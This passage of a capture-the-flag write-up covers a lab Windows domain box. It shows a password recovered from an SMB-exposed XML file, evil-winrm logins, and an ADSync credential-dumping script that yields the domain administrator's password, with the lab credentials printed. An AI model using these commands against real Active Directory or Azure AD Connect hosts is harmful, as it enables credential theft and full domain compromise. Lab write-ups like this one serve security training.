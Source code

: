       <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>⏎                                            
```

* We see a password for 4n0therD4y@n0th3r$

## Exploitation

### Evil-WinRM

Throughout thorough enumeration of the SMB drives, I was able to extract sensitive information that lead to comprise of the mhope account.

```
evil-winrm -i 10.129.128.21 -u mhope -p '4n0therD4y@n0th3r$'
```

## Privilege Escalation

### Local enumeration

whoami

```
whoami /all

MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
```

### PrivEsc vector - ADSync

* We see that mhope is part of the Azure Admins Group which means that we can perform ADSync.
* The easiest way to pull this off was through this script right here:

{% embed url="https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1" %}

#### Syntax

```
upload Azure-ADConnect.ps1

import-module ./Azure-ADConnect.ps1

Azure-ADConnect -server localhost -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```

* As you can see, the script worked and we successfully utilized our DCSync rights to forward us the administrator's password!
* Now all that is left to do is evil-winrm into the administrator's account and own the box!

Evil-WinRM

```
evil-winrm -i 10.129.128.21 -u administrator -p 'd0m@in4dminyeah!'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
megabank\administrator
```
```